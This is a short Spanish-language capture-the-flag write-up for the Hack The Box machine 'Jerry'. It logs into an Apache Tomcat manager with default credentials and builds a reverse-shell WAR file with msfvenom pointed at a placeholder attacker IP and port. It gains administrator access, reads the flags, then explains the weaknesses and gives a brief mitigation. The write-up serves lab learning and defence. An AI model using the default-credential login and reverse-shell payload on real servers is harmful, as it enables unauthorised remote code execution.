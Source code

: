 # Jerry ![Avatar](https://www.hackthebox.eu/storage/avatars/59f03a24178dbb2bdc94968c201e21f8_thumb.png)     

## Scan

```nmap
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
## Enumeration

Lo unico que tenemos para enumerar en principio es un Apache Tomcat, probemos con las password por defecto de Tomcat 
```
tomcat:s3cret
```
## Exploit

Como durante la enumeración obtuvimos acceso al Manger de Tomcat, ahora tenemos la posibilidad de subir una shell en formato war al servidor, para ello vamos a generar una con msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```
## Privesc

No hay privesc en esta máquina ya que tenemos acceso al administrador directamente

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
```
Y solo faltaría conseguir leer la flag
```cmd
C:\Users\Administrator\Desktop\flags>type 2*
```
# Analisís de la intrusión
### Default creds
El uso de las credenciales por defecto para el acceso a Tomcat nos permitio comprometer el servicio Tomcat
### Unrstricted file upload
La permisión de subir archivos war sin control desde el menu de Tomcat nos permitio subir una reverse shell permitiendonos full RCE como Tomcat

# Solucion
### Unrestricred file upload
Para mitigar esta posibilidad habria que cambiar la siguiente linea en el archivo de comfiguracion de tomcat
```
            unpackWARs="true" autoDeploy="true">
```
